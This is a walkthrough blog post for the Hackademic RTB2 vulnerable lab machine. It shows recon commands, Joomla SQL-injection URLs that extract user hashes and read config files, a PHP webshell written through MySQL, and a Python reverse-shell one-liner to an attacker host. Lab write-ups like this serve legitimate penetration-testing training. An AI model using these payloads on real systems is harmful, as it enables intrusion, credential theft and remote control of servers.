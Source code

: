 ```yaml
---
layout: post
title: "Hackademic RTB2"
date: 2016-08-10 15:38:10 -0500
comments: true
categories: [vulhub,phpmyadmin, joomla]
---
```



###Tools:

* Netdiscover
* Nmap
* Wfuzz
* Nikto
* Joomscan
* Metasploit


###Vulnerabilities:
[Linux Kernel 2.6.36-rc8 - RDS Protocol Local Privilege Escalation](https://www.exploit-db.com/exploits/15285/)

<!--more-->
Use netdiscover to detect target IP address

`netdiscover -i eth0 -r 192.168.41.0/24`
{% img  /images/blog/vulhub/rtb2/Selection_001.png   [title manually exploit [alt text]] %}

192.168.41.158 is the target.

Then run nmap to detect opening ports and running services on the target machine.

`nmap -sV -v -O -A -T5 192.168.41.158 -p-`

{% img  /images/blog/vulhub/rtb2/Selection_002.png   [title manually exploit [alt text]] %}

looks like port 80 is opening and port 666 is filtered.

Use both wfuzz to scan the host

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.158/FUZZ 2>/dev/null
```

{% img  /images/blog/vulhub/rtb2/Selection_003.png   [title manually exploit [alt text]] %}

find `phpmyadmin`


check the webpage, and need to login, try to use sqli to by pass the autherication, but doesn't work. Now step back, enumerate more.

I use nmap to scan the target again. find port 666 now is opening. So there may be a port knocking existing.

{% img  /images/blog/vulhub/rtb2/Selection_005.png   [title manually exploit [alt text]] %}

use wfuzz scan again

```
wfuzz -c -z file,/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt --hc 404 http://192.168.41.158:666/FUZZ 2>/dev/null
```

{% img  /images/blog/vulhub/rtb2/Selection_008.png   [title manually exploit [alt text]] %}

check the webpage `http://192.168.41.158:666/`

{% img  /images/blog/vulhub/rtb2/Selection_007.png   [title manually exploit [alt text]] %}

looks like it is joomla

now use Joomba to scan the app

`joomscan -u http://192.168.41.158:666/`

nothing cool comes out.

use metasploit

`search joomla`


I use `auxiliary/scanner/http/joomla_plugins`


```
msf > use auxiliary/scanner/http/joomla_plugins
msf auxiliary(joomla_plugins) > set rhosts 192.168.41.158
msf auxiliary(joomla_plugins) > set rport 666
msf auxiliary(joomla_plugins) > run
```

{% img  /images/blog/vulhub/rtb2/Selection_009.png   [title manually exploit [alt text]] %}

use `/index.php?option=com_abc&view=abc&letter=AS&sectionid='`


so first step, verify the sql injection:

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid='`

{% img  /images/blog/vulhub/rtb2/Selection_010.png   [title manually exploit [alt text]] %}

then try to get column number:

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 order by 1--`
`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 order by 2--`
`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 order by 3--`

{% img  /images/blog/vulhub/rtb2/Selection_011.png   [title manually exploit [alt text]] %}

the column number is 2

next find out which column we can use

`158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1,2--`

{% img  /images/blog/vulhub/rtb2/Selection_012.png   [title manually exploit [alt text]] %}

Okay. Column 2

try to check mysql version

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1,@@version--`

{% img  /images/blog/vulhub/rtb2/Selection_013.png   [title manually exploit [alt text]] %}


get all table name

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1, table_name from information_schema.tables--`

{% img  /images/blog/vulhub/rtb2/Selection_015.png   [title manually exploit [alt text]] %}

get all column name of table jos_users

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1, column_name from information_schema.columns where table_name = 'jos_users'--`

{% img  /images/blog/vulhub/rtb2/Selection_016.png   [title manually exploit [alt text]] %}

next, get column username and password:

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1, concat(username,0x20,password) from jos_users--`

{% img  /images/blog/vulhub/rtb2/Selection_018.png   [title manually exploit [alt text]] %}

The format is hash:salt

use my previous joomla hash crack script [crackjoomla.py](https://github.com/wg135/script/blob/master/crackjoomla.py)

```
./crackjoomla.py 992396d7fc19fd76393f359cb294e300 70NFLkBrApLamH9VNGjlViJLlJsB60KF /usr/share/wordlists/rockyou.txt 
```

for administrator, I didn't get the password

for JSmith, password is matrix, for BTallor, password is victim.

login using JSmith, find nowhere can upload the webshell. check the configuration.php file

`http://192.168.41.158:666/index.php?option=com_abc&view=abc&letter=AS&sectionid=1 union all select 1, load_file('/var/www/configuration.php')--`

{% img  /images/blog/vulhub/rtb2/Selection_019.png   [title manually exploit [alt text]] %}

find the username/password. Use it login phpmyadmin

{% img  /images/blog/vulhub/rtb2/Selection_022.png   [title manually exploit [alt text]] %}


now I will create a backdoor using mysql:

```
create database pwn;
create table backdoor(script text);
insert into backdoor(script) values('<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>');
select * into outfile "/var/www/backdoor3.php" from backdoor;
```
check the backdoor.

`http://192.168.41.158:666/backdoor3.php?cmd=uname -a`

{% img  /images/blog/vulhub/rtb2/Selection_023.png   [title manually exploit [alt text]] %}


good.

Setup netcat and 

```
http://192.168.41.158:666/backdoor3.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.41.149",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

{% img  /images/blog/vulhub/rtb2/Selection_020.png   [title manually exploit [alt text]] %}

`uname -a`

find the kernel version is 2.6.32. Find an exploit Linux Kernel 2.6.36-rc8 - RDS Protocol Local Privilege Escalation.

{% img  /images/blog/vulhub/rtb2/Selection_021.png   [title manually exploit [alt text]] %}

